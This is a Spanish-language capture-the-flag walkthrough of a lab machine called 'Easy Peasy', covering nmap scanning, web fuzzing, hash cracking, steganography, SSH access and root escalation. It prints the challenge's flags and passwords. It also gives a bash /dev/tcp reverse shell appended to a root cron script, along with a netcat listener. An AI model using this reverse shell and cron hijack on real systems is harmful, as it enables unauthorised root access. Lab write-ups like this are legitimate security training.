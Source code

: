 # Easy Peasy

## Mapeo de puertos

Ejecutamos un escaneo a todos los puertos con`nmap`sobre la máquina víctima.

```
sudo nmap -sCV -p- 10.10.220.165
```

Visualizamos tres puertos abiertos:
- El puerto 80 del protocolo HTTP con un sitio web nginx.
- El puerto 6498 de SSH.
- El puerto 65524 que es un servidor de Apache por HTTP.

![](images/image.png)


## Explotación web

Para obtener más directorios del sitio web de la máquina, vamos a utilizar`dirbuster`para hacer fuzzing:

![](images/image-1.png)

![](images/image-2.png)

Encontramos un directorio llamado`/hidden/`:

![](images/image-3.png)

Y también`/hidden/whatever`:

![](images/image-4.png)

Mirando el código fuente, descubrimos mensaje codificado en Base64 aparentemente:

![](images/image-5.png)

Usamos Cyberchef para decodificarlo y obtenemos la primera flag:

![](images/image-6.png)

```
flag{f1rs7_fl4g}
```

También usamos`gobuster`para ver si obtenemos más resultados:

```
gobuster dir -u http://10.10.220.165 -x html,txt,php,js,py -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Hay un`robots.txt`pero no tiene información relevante.


![](images/image-7.png)

Accedemos a la página por el puerto 65524 y comprobamos su`robots.txt`:

```
http://10.10.220.165:65524/robots.txt
```

Hay un hash que podemos crackear.

![](images/image-8.png)

```
a18672860d0510e5ab6699730763b250
```

Pasamos el hash por`md5hashing`y obtenemos la segunda flag:

![](images/image-9.png)

```
flag{1m_s3c0nd_fl4g}
```

La tercera flag la tenemos en el directorio principal del puerto en que está apache:
![](images/image-10.png)

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

Inspeccionamos el código fuente también y descubrimos lo siguiente:
![](images/image-11.png)

Decodificamos con Cyberchef en Base62:

![](images/image-12.png)

Entramos al directorio decodificado:

![](images/image-13.png)

Hay un hash oculto.

![](images/image-14.png)

Lo crackeamos con John y el`.txt`que nos proporcionan en el reto.

```
john --wordlist=easypeasy_1596838725703.txt --format=gost hash.txt  
```

La contraseña es`mypasswordforthatjob`.

![](images/image-15.png)

Usamos`steghide`sobre la imagen de matrix ya que oculta un mensaje:

```
steghide extract -sf binarycodepixabay.jpg
```

La passphrase es la contraseña que obtuvimos antes.

![](images/image-16.png)

Analizamos el mensaje obtenido:

![](images/image-17.png)

Pasamos el código binario a ASCII

![](images/image-18.png)

```
iconvertedmypasswordtobinary
```
## Escalada de privilegios

Finalmente, podemos entrar por SSH con el usuario y la contraseña obtenidos.

```
ssh boring@10.10.220.165 -p 6498
```

![](images/image-19.png)

Encontramos la flag pero parece que está invertida o algo así.

![](images/image-20.png)

Lo decodificamos con el cifrado del Cesar y obtenemos la flag.

![](images/image-21.png)

```
flag{n0wits33msn0rm4l}
```

Inspeccionamos los jobs de crontab y descubrimos el siguiente script programado:

![](images/image-22.png)

Nos desplazamos a la localización y lo vemos:

```
cd /var/www/
```

Solo puede ser ejecutado como root.

![](images/image-23.png)

 Abrimos un puerto en escucha con`netcat`.
 
```
nc -nlvp 9001
```

![](images/image-24.png)

Introducimos la siguiente reverse shell:

```
echo "bash -i >& /dev/tcp/10.10.220.165/9001 0>&1" >> .mysecretcronjob.sh
```

Obtenemos la flag del root:

![](images/image-25.png)

```
flag{63a9f0ea7bb98050796b649e85481845}
```



















